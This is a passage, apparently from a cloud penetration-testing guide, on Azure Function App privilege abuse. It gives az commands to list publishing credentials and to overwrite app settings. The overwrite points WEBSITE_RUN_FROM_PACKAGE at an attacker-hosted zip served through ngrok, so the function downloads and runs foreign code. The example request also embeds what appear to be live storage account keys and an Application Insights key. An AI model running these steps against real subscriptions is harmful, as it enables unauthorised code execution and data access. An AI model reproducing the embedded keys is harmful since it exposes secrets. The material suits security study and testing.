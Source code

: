 ```bash
az rest --method POST \
  --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/config/publishingcredentials/list?api-version=2018-11-01"
```

### `Microsoft.Web/sites/config/list/action`, `Microsoft.Web/sites/config/write`

These permissions allows to list the config values of a function as we have seen before plus **modify these values**. This is useful because these settings indicate where the code to execute inside the function is located.

It's therefore possible to set the value of the setting **`WEBSITE_RUN_FROM_PACKAGE`** pointing to an URL zip file containing the new code to execute inside a web application:

- Start by getting the current config

```bash
az functionapp config appsettings list \
  --name <app-name> \
  --resource-group <res-name>
```

- Create the code you want the function to run and host it publicly

```bash
# Write inside /tmp/web/function_app.py the code of the function
cd /tmp/web/function_app.py
zip function_app.zip function_app.py
python3 -m http.server

# Serve it using ngrok for example
ngrok http 8000
```

- Modify the function, keep the previous parameters and add at the end the config **`WEBSITE_RUN_FROM_PACKAGE`** pointing to the URL with the **zip** containing the code.

The following is an example of my **own settings you will need to change the values for yours**, note at the end the values `"WEBSITE_RUN_FROM_PACKAGE": "https://4c7d-81-33-68-77.ngrok-free.app/function_app.zip"`, this is where I was hosting the app.

```bash
# Modify the function
az rest --method PUT \
  --uri "https://management.azure.com/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.Web/sites/newfunctiontestlatestrelease/config/appsettings?api-version=2023-01-01" \
  --headers '{"Content-Type": "application/json"}' \
  --body '{"properties": {"APPLICATIONINSIGHTS_CONNECTION_STRING": "InstrumentationKey=67b64ab1-a49e-4e37-9c42-ff16e07290b0;IngestionEndpoint=https://canadacentral-1.in.applicationinsights.azure.com/;LiveEndpoint=https://canadacentral.livediagnostics.monitor.azure.com/;ApplicationId=cdd211a7-9981-47e8-b3c7-44cd55d53161", "AzureWebJobsStorage": "DefaultEndpointsProtocol=https;AccountName=newfunctiontestlatestr;AccountKey=gesefrkJxIk28lccvbTnuGkGx3oZ30ngHHodTyyVQu+nAL7Kt0zWvR2wwek9Ar5eis8HpkAcOVEm+AStG8KMWA==;EndpointSuffix=core.windows.net", "FUNCTIONS_EXTENSION_VERSION": "~4", "FUNCTIONS_WORKER_RUNTIME": "python", "WEBSITE_CONTENTAZUREFILECONNECTIONSTRING": "DefaultEndpointsProtocol=https;AccountName=newfunctiontestlatestr;AccountKey=gesefrkJxIk28lccvbTnuGkGx3oZ30ngHHodTyyVQu+nAL7Kt0zWvR2wwek9Ar5eis8HpkAcOVEm+AStG8KMWA==;EndpointSuffix=core.windows.net","WEBSITE_CONTENTSHARE": "newfunctiontestlatestrelease89c1", "WEBSITE_RUN_FROM_PACKAGE": "https://4c7d-81-33-68-77.ngrok-free.app/function_app.zip"}}'
```
